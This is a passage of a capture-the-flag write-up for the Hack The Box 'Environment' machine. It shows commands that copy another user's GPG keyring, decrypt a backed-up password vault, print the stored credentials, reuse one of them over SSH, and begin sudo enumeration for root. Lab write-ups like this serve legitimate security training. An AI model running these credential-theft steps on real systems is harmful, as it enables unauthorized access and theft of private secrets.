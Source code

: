So what we can do is
```
# 1. Copy the key directory of the hish user
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. Set permissions
chmod -R 700 /tmp/mygnupg

# 3. Confirm whether the private key exists
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. Decrypt keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```

Then we get the decrypted message
```
www-data@environment:/tmp$ cat message.txt
cat message.txt
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

Then we can successfully get into `hish` user shell  by using ssh with the credit `ENVIRONMENT.HTB -> marineSPm@ster!!`

```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Environment]
└─$ ssh hish@environment.htb                   
The authenticity of host 'environment.htb (10.10.11.67)' can't be established.
ED25519 key fingerprint is SHA256:GKtBN7PjK58Q8eTT80jQMUZYS5ZLu8ccptkyIueks18.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'environment.htb' (ED25519) to the list of known hosts.
hish@environment.htb's password: 
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul 12 17:16:45 2025 from 10.10.14.16
hish@environment:~$ 
```

# shell as root
Firstly I would like to check `sudo -l`
```
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```
